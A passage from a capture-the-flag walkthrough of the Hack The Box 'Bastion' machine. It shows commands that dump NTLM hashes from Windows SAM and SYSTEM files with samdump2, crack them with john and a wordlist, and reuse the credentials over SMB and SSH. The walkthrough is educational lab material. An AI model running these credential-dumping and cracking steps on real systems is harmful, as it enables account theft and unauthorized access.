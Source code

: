 **Then, generate a hash file for `john` using `samdump2`:**
```shell
┌[root♥Mercury]-(/mnt/vhd)-[2023.08.04|14:40:15(HKT)]
└> samdump2 Windows/System32/config/SYSTEM Windows/System32/config/SAM -o /home/siunam/ctf/htb/Machines/Bastion/sam.txt 
┌[root♥Mercury]-(/mnt/vhd)-[2023.08.04|14:40:59(HKT)]
└> cat /home/siunam/ctf/htb/Machines/Bastion/sam.txt 
*disabled* Administrator:500:{Redacted}:{Redacted}:::
*disabled* Guest:501:{Redacted}:{Redacted}:::
L4mpje:1000:{Redacted}:{Redacted}:::
```

As you can see, there's a `L4mpje`'s NTLM hash!

**Next, we can then crack it via `john`:**
```shell
┌[root♥Mercury]-(/mnt/vhd)-[2023.08.04|14:42:06(HKT)]
└> john --wordlist=/usr/share/wordlists/rockyou.txt --format=NT /home/siunam/ctf/htb/Machines/Bastion/sam.txt
[...]
{Redacted}     (L4mpje)     
[...]
```

Cracked!

**We can now verify the credentials is correct via SMB share listing with user `L4mpje` credentials:**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Bastion)-[2023.08.04|14:42:44(HKT)]
└> smbclient -L //$RHOSTS/ -U 'L4mpje'
Password for [WORKGROUP\L4mpje]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	Backups         Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
[...]
```

It's correct!

**Since SSH and WinRM is available on the target machine, we can try to SSH to user `L4mpje`:**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Bastion)-[2023.08.04|14:43:47(HKT)]
└> ssh L4mpje@$RHOSTS
L4mpje@10.10.10.134's password: 
[...]
l4mpje@BASTION C:\Users\L4mpje>whoami && ipconfig /all                                                     
bastion\l4mpje                                                                                             

Windows IP Configuration                                                                                   

   Host Name . . . . . . . . . . . . : Bastion                                                             
   Primary Dns Suffix  . . . . . . . :                                                                     
   Node Type . . . . . . . . . . . . : Hybrid                                                              
   IP Routing Enabled. . . . . . . . : No                                                                  
   WINS Proxy Enabled. . . . . . . . : No                                                                  
```